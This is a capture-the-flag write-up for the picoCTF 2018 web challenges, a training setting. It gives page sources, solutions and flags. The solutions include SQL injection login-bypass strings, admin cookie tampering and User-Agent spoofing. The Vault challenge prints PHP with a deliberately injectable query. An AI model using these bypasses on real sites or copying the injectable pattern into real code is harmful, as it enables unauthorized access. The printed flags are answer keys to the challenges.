

<h1 align="center">Web Exploitation</h1>


<h3>Inspect Me - Points: 125</h3>
Inpect this code! http://2018shell2.picoctf.com:28831 (link) 

</img>

``` shell
<!doctype html>
<html>
  <head>
    <title>My First Website :)</title>
    <link href="https://fonts.googleapis.com/css?family=Open+Sans|Roboto" rel="stylesheet">
    <link rel="stylesheet" type="text/css" href="mycss.css">
    <script type="application/javascript" src="myjs.js"></script>
  </head>

  <body>
    <div class="container">
      <header>
	<h1>My First Website</h1>
      </header>

      <button class="tablink" onclick="openTab('tabintro', this, '#222')" id="defaultOpen">Intro</button>
      <button class="tablink" onclick="openTab('tababout', this, '#222')">About</button>
      
      <div id="tabintro" class="tabcontent">
	<h3>Intro</h3>
	<p>This is my first website!</p>
      </div>

      <div id="tababout" class="tabcontent">
	<h3>About</h3>
	<p>These are the web skills I've been practicing: <br/>
	  HTML <br/>
	  CSS <br/>
	  JS (JavaScript)
	</p>
	<!-- I learned HTML! Here's part 1/3 of the flag: picoCTF{ur_4_real_1nspe -->
      </div>
      
    </div>
    
  </body>
</html>

div.container {
    width: 100%;
}

header {
    background-color: #c9d8ef;
    padding: 1em;
    color: white;
    clear: left;
    text-align: center;
}

body {
    font-family: Roboto;
}

h1 {
    color: #222;
}

p {
    font-family: "Open Sans";
}

.tablink {
    background-color: #555;
    color: white;
    float: left;
    border: none;
    outline: none;
    cursor: pointer;
    padding: 14px 16px;
    font-size: 17px;
    width: 50%;
}

.tablink:hover {
    background-color: #777;
}

.tabcontent {
    color: #111;
    display: none;
    padding: 50px;
    text-align: center;
}

#tabintro { background-color: #ccc; }
#tababout { background-color: #ccc; }

/* I learned CSS! Here's part 2/3 of the flag: ct0r_g4dget_b4887011} */

function openTab(tabName,elmnt,color) {
    var i, tabcontent, tablinks;
    tabcontent = document.getElementsByClassName("tabcontent");
    for (i = 0; i < tabcontent.length; i++) {
	tabcontent[i].style.display = "none";
    }
    tablinks = document.getElementsByClassName("tablink");
    for (i = 0; i < tablinks.length; i++) {
	tablinks[i].style.backgroundColor = "";
    }
    document.getElementById(tabName).style.display = "block";
    if(elmnt.style != null) {
	elmnt.style.backgroundColor = color;
    }
}

window.onload = function() {
    openTab('tabintro', this, '#222');
}

/* I learned JavaScript! Here's part 3/3 of the flag:  */

Flag: picoCTF{ur_4_real_1nspect0r_g4dget_b4887011}
```

<h3>Client Side is Still Bad - Points: 150</h3>
I forgot my password again, but this time there doesn't seem to be a reset, can you help me? http://2018shell2.picoctf.com:55790 (link)

</img>

``` shell
<html>
<head>
<title>Super Secure Log In</title>
</head>
<body bgcolor="#000000">
<!-- standard MD5 implementation -->
<script type="text/javascript" src="md5.js"></script>

<script type="text/javascript">
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(split*7, split*8) == '}') {
      if (checkpass.substring(split*6, split*7) == 'd366') {
        if (checkpass.substring(split*5, split*6) == 'd_3b') {
         if (checkpass.substring(split*4, split*5) == 's_ba') {
          if (checkpass.substring(split*3, split*4) == 'nt_i') {
            if (checkpass.substring(split*2, split*3) == 'clie') {
              if (checkpass.substring(split, split*2) == 'CTF{') {
                if (checkpass.substring(0,split) == 'pico') {
                  alert("You got the flag!")
                  }
                }
              }
      
            }
          }
        }
      }
    }
    else {
      alert("Incorrect password");
    }
  }
</script>
<div style="position:relative; padding:5px;top:50px; left:38%; width:350px; height:140px; background-color:red">
<div style="text-align:center">
<p>Welcome to the Secure Login Server.</p>
<p>Please enter your credentials to proceed</p>
<form action="index.html" method="post">
<input type="password" id="pass" size="8" />
<br/>
<input type="submit" value="Log in" onclick="verify(); return false;" />
</form>
</div>
</div>
</body>
</html>

Flag: picoCTF{client_is_bad_3bd366}
```

<h3>Logon - Points: 150</h3>
I made a website so now you can log on to! I don't seem to have the admin password. See if you can't get to the flag. http://2018shell2.picoctf.com:37861 (link)

</img>

``` shell
Modify the cookie of the admin as True 
```
</img>

<h3>Irish Name Repo - Points: 200</h3>
 There is a website running at http://2018shell2.picoctf.com:11899 (link). Do you think you can log us in? Try to see if you can login!

</img>

</img>

``` shell
username: admin
password: ' or 'x'='x
```
</img>

<h3>Mr. Robots - Points: 200</h3>
Do you see the same things I see? The glimpses of the flag hidden away? http://2018shell2.picoctf.com:40064 (link) 

</img>
``` shell
User-agent: *
Disallow: /30de1.html
```
</img>

<h3>No Login - Points: 200</h3>
Looks like someone started making a website but never got around to making a login, but I heard there was a flag if you were the admin. http://2018shell2.picoctf.com:14664 (link)  

</img>

``` shell
Modify the cookie of the admin as True
```
</img>

<h3>Secret Agent - Points: 200</h3>
Here's a little website that hasn't fully been finished. But I heard google gets all your info anyway. http://2018shell2.picoctf.com:3827 (link)

</img>
``` shell
Modify User-Agent as GoogleBot

<!DOCTYPE html>
<html lang="en">

<head>
    <title>My New Website</title>


    <link href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign In</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">My New Website</h3>
        </div>
        
       <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
       
       
       <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
         <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
         <!-- <strong>Title</strong> --> Googlebot!
           </div>
     
     
     
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{s3cr3t_ag3nt_m4n_12387c22}</code></p>
            <!-- <p><a class="btn btn-lg btn-success" href="admin" role="button">Click here for the flag!</a> -->
            <!-- </p> -->
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2018</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>

</html>
```
</img>

<h3>Buttons - Points: 250</h3>
There is a website running at http://2018shell2.picoctf.com:21579 (link). Try to see if you can push their buttons.

</img>
``` shell
<!doctype html>
<html>
<head>
    <title>Buttons!</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">BUTTON1</h3>
                </div>
                <div class="panel-body">
                    <form action="button1.php" method="POST">
                        <input type="submit" value="PUSH ME! I am your only hope!"/>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

<!doctype html>
<html>
<head>
    <title>Buttons!</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div>
    You did it! Try the next button: <a href="button2.php">Button2</a>
</div>
</body>
</html>

Modify button2 of href at form method POST

Flag: Well done, your flag is: picoCTF{button_button_whose_got_the_button_ed306c10}
```

<h3>The Vault - Points: 250</h3>
There is a website running at http://2018shell2.picoctf.com:53261 (link). Try to see if you can login!

</img>
``` shell
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();
    
    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }
  
?>
username = admin
password = ' or 1 --
```
</img>
